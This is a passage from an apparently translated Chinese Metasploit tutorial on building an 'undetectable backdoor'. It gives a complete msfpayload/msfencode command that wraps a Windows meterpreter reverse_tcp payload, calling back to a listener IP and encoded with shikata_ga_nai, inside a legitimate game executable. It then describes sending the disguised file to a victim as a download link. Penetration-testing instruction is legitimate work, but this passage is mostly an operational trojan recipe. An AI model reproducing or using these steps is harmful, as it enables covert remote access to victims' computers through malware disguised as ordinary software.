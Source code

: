 现在输入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 1 -t exe -x/root/Desktop/game.exe -o /root/Desktop/supergame.exe

```

要使用的语法如下：

```
PAYLOAD NAME - windows/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 1 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template) - root/Desktop/game.exe o(The output file) - root/Desktop/supergame.exe

```

我们可以在以下截图中看到我们的`supergame.exe`文件已经创建。

![创建一个完全不可检测的后门](img/3589_10_13.jpg)

再次，我们以链接的形式将`supergame.exe`文件发送给受害者，并让他/她将`supergame.exe`文件下载到他/她的桌面上。

![创建一个完全不可检测的后门](img/3589_10_14.jpg)
